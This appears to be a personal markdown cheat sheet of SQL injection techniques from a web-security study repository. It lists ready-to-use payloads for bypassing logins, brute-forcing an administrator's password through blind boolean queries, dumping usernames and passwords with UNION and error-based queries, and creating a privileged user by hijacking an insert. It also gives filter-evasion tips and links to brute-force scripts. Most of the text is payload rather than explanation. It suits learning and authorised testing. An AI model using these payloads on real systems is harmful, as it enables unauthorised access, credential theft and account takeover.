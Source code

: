 # SQLi notes

#### Testing booleans
Remember to try `AND` `OR` `HAVING`
we can test the ability bruteforce/presence of users by selecting a char, limiting to 1 and then comparing, so the below would become `a=a`  
`b' OR (select 'a' from users limit 1)='a`  
Now we can take a step further and confirm we have a user called "Administrator"  
`b' OR (select 'a' from users where username='administrator')='a`  
The ball keeps on rolling, and we can begin the makings of bruteforce attack by testing the length of password  
`b' OR (select 'a' from users where username='administrator' and length(password)>1)='a;`  

#### Example PoCs: [BlindSQLI Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/bruteforce_blindsqli.py) [BlindNOsqli Brute](https://github.com/kymb0/General_code_repo/blob/master/Code_templates/brute_mongoDB_nosqli.py)

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and then `pass` in password field  
`' or 1 =1 LIMIT 1,1#`

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Check for true vs false responses

### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)
